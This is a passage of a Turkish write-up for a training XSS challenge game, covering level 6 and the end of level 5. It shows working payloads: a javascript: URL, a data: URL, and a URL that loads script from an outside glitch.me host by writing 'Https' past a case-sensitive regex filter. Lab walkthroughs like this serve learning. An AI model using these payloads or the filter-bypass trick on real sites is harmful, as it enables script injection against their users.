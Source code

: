 Anahtar kelime: `html attribute xss`

Kullanılan payload: `javascript:alert(1)`

## Level 6

![resim](https://i.ibb.co/CBFVhsg/resim.png)

Burada uzaktan bir js dosyası çağırıp alert() verdirmemizi istiyor. Url'ye bakacak olursak websitesinin root klasöründen `/static/gadget.js` i kendisi çağırmaya çalışmış. Burayı manipüle edebiliriz.

[Buradan](https://wiki.zacheller.dev/web-app-pentest/xss/data-urls) edindiğimiz bilgiler üzerinden `#data:text/plain,alert(1)` şeklinde uzaktan çağrılmış gibi veri gönderebiliyoruz. O zaman url'yi düzenlersek: `https://xss-game.appspot.com/level6/frame#data:text/plain,alert(1)` elde ederiz. Go tuşuna basarsak: 

![resim](https://i.ibb.co/6nrXGv3/resim.png)

Peki uzaktan js enjeksiyonu nasıl yapacağız?

Bunun için github gist, paste siteleri vb. denedim ancak işe yarayan sadece [glitch](https://xss-game-appspot-com-level-6.glitch.me/i.js) oldu. Gösterdiğim gibi js dosyasını urlye giriyoruz:

Girdiğim url: `https://xss-game.appspot.com/level6/frame#https://xss-game-appspot-com-level-6.glitch.me/i.js`

![resim](https://i.ibb.co/9y35Px5/resim.png)

Olmadı. Peki neden? Çünkü kaynak kodları incelersek (index.html):

```html
<script>
// This will totally prevent us from loading evil URLs!
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
    "Sorry, cannot load a URL containing \"http\".");
  return;
}
</script>
```

Berbat bir uzaktan js yükleme koruması ile karşılaşıyoruz. Bu basit bir regex ile hazırlanmış koruma. Atlatmak için binbir farklı yöntem kullanılabilir.

Ben bunu kullanmayı yeterli buldum: `https://xss-game.appspot.com/level6/frame#Https://xss-game-appspot-com-level-6.glitch.me/i.js`

Sadece urlmin başındaki https'i Https olarak değiştirdim ve sonuç:

![resim](https://i.ibb.co/5BrNrrd/resim.png)

Anahtar kelime: `remote code execution js`

Kullanılan payload: `https://xss-game.appspot.com/level6/frame#Https://xss-game-appspot-com-level-6.glitch.me/i.js`